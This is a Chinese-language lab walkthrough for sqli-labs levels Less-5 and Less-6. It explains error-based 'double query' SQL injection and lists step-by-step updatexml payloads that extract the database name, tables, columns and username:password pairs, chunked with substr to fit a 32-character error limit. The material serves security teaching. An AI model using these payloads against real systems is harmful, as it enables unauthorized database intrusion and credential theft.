





# Chapter-1-靶场关卡标题术语解析

Less-5:GET-Double Injection-Single Quotes-String

Less-6:GET-Double Injection-Double Quotes-String

- **Double Injection**：双查询报错注入（也叫二次查询注入）。页面无查询结果回显，只能依靠数据库报错信息带出数据。

>注：该关卡有两类可利用的报错注入 Payload：最早经典方案：floor()+rand()+group by 形式，名称 “双查询” 来源于它嵌套双层 select 子查询的语法结构；缺点是存在随机性，报错不一定稳定触发。后续出现 XPATH 报错注入（updatexml/extractvalue），同样适用于本关，写法简洁、执行稳定，实战更常用；语法上包含子查询，但没有floor+rand那套的双层查询结构。

# Chapter-2-靶场实操完整SQLi流程

## Less-5

后台原始SQL：`SELECT * FROM users WHERE id='$id' LIMIT 0,1;`

### 步骤一：
**payload:**`?id=1`

### 步骤二：
**payload:**`?id=1'`

页面报错，单引号闭合触发语法错误，存在注入

### 步骤三：
**payload:**`?id=1' --+`

页面正常，确认是单引号闭合

>分析：页面不会直接展示查询数据，只有报错信息回显，不能用联合查询，采用updatexml报错注入

>updatexml 报错注入原理：updatexml(目标xml, xpath表达式, 替换内容)。第二个参数要求是合法 xpath 格式，构造非法 xpath，把查询结果塞进报错信息里，页面打印报错内容。限制：报错回显最多只能输出 32 个字符，超过部分直接丢失

### 步骤四：
**payload:**`?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1) --+`

### 步骤五：
**payload**`?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7e),1) --+`

每次只查询一行内容，先查询第一行内容`limit 0,1`然后依次查询后面行的内容：第二行`limit 1,1`，第三行`limit 2,1`，第四行`limit 3,1`。避免每行表名太长拼接在一起后超出32位导致显示不完整。

但这里的表数量较少且表名较短，可以一次性查询：

**payload:**`?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1) --+`

>注：其实如果内容多也可以一起查询，但需要使用分段截取

**payload:**`?id=1' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema='security'),1,30),0x7e),1) --+`

然后接下来只需要修改`substr(,1,30)`为`substr(,31,30)`，类推即可。

>注：xpath报错回显最多只能输出32个字符，因为前后分别拼接了一个0x7e(~)，所以查询内容一次性最多输出30个字符。

### 步骤六：
**payload:**`?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),0x7e),1) --+`

第二行`limit 1,1`，第三行`limit 2,1`

合并查询：
**payload:**`?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) --+`

### 步骤七：
**payload:**`?id=1' and updatexml(1,concat(0x7e,substr((select concat(uername,0x3a,password) from users limit 0,1),1,30),0x7e),1) --+`

**payload:**`?id=1' and updatexml(1,concat(0x7e,substr((select concat(username,0x3a,password) from users limit 0,1),31,30),0x7e),1) --+`

第二行：`limit 1,1`，第三行：`limit 2,1`，以此类推。

在这个例子中，一次只输出一组账号密码的情况下不会超过30位，不用截断

**payload:**`?id=1' and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1),0x7e),1) --+`

>除了将每组账号和密码打包输出，其实也可选择用分段截取的方式单独将所有账号一起输出，然后再单独将所有密码单独输出，获取所有账号和密码后再按顺序一一对应即可，不过此方法工作量并不少于前种方法且一个完整的账号或者密码会被切断，总体来说不如前方法，仅作思考，实用性不大。

**payload:**`?id=1' and updatexml(1,concat(0x7e,substr((select group_concat(username) from users),1,30),0x7e),1) --+`

第二块：`substr(,31,30)`

以此类推。

## Less-6

Less-6流程和Less-5完全相同，只需要把`'`换成`"`即可。